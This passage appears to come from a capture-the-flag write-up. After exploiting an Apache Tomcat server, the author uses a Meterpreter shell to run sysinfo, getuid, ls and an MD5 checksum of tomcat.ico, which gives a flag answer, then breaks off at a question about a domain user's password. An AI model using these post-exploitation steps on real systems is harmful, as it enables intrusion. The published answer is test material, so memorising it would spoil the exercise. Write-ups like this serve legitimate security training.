 ```
[*] Undeploying obllDiY ...

meterpreter > 
```

The exploit working and now I have a Meterpreter shell on the remote target. I ran `sysinfo` to get information about the remote system and `getuid` to get the user that the server is running as.

```
meterpreter > sysinfo
Computer    : prod-websrv7765
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows

meterpreter > getuid
Server username: LOCAL SERVICE
```

Right now, I'm as `LOCAL SERVICE`. Next, I ran `ls` to list out the folders and files.

```
meterpreter > ls
Listing: C:\Program Files\Apache Software Foundation\Tomcat 8.5
===============================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100776/rwxrwxrw-  58068  fil   2020-10-07 00:58:40 +0800  LICENSE
100776/rwxrwxrw-  1777   fil   2020-10-07 00:58:40 +0800  NOTICE
100776/rwxrwxrw-  7314   fil   2020-10-07 00:58:40 +0800  RELEASE-NOTES
100776/rwxrwxrw-  81704  fil   2020-10-07 00:59:30 +0800  Uninstall.exe
40776/rwxrwxrw-   4096   dir   2020-11-03 08:58:32 +0800  bin
40776/rwxrwxrw-   4096   dir   2020-11-03 09:21:48 +0800  conf
40776/rwxrwxrw-   12288  dir   2020-11-03 08:58:32 +0800  lib
40776/rwxrwxrw-   16384  dir   2020-11-22 00:29:46 +0800  logs
40776/rwxrwxrw-   4096   dir   2020-11-22 00:45:18 +0800  temp
100776/rwxrwxrw-  21630  fil   2020-10-07 00:58:50 +0800  tomcat.ico
40776/rwxrwxrw-   16384  dir   2020-11-22 00:45:15 +0800  webapps
40776/rwxrwxrw-   0      dir   2020-11-18 13:55:43 +0800  work
```

This question ask for MD5 hash for `tomcat.ico`. To do that, I ran `checksum md5 tomcat.ico`.

```
meterpreter > checksum md5 tomcat.ico
4644f2d45601037b8423d45e13194c93  tomcat.ico
```

#### Answer: 4644f2d45601037b8423d45e13194c93

### Q3 - Plain text password for domain user

![](/images/ctf-round-3-active-directory/7.png)
